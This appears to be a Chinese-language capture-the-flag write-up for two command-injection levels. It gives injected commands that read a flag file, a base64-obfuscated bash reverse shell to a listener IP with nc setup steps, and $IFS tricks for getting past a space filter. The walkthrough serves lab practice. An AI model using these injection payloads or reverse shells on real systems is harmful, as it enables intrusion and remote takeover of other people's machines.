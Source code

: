 # 第1关
## 简单命令注入
```shell
baidu.com;ls
baidu.com;id
baidu.com;cat flag
```

## 反弹shell
通过base64编码进行注入
```shell
baidu.com;bash -c '{echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE2NC4xNDQvOTk5OSAwPiYx}|{base64,-d}|{bash,-i}'
```
具体实现步骤：
1. 监听端（kali）开启监听端口，使用nc工具（kali自带）
```shell
nc -lvvp 9999
```
2. 查看监听端ip
```
ifconfig
```
3. 反弹shell指令编码成base64
注意填充ip和监听端口
```shell
bash -i >& /dev/tcp/$ip/$port 0>&1
```
之后可以用python3进行base64编码,大概如下：
```python
import base64
#python3字符串前要加b，python2不用
str_to_encode = b"bash -i >& /dev/tcp/192.168.144.149/9999 0>&1"
encoded_str = base64.b64encode(str_to_encode)
print(encoded_str)
```

# 第2关
过滤了空格
空格可以用以下字符代替：
`< 、<>、%20(即space)、%09(即tab)、$IFS$9、 ${IFS}、$IFS`等

`$IFS`在linux下表示分隔符，但是如果单纯的`cat$IFS2`，`bash`解释器会把整个`IFS2`当做变量名，所以导致输不出来结果，因此这里加一个`{}`就固定了变量名。
同理，在后面加个$可以起到截断的作用，使用`$9`是因为它是当前系统shell进程的第九个参数的持有者，它始终为空字符串。
## 简单注入
```shell
baidu.com;cat${IFS}flag
baidu.com;cat<>flag
```
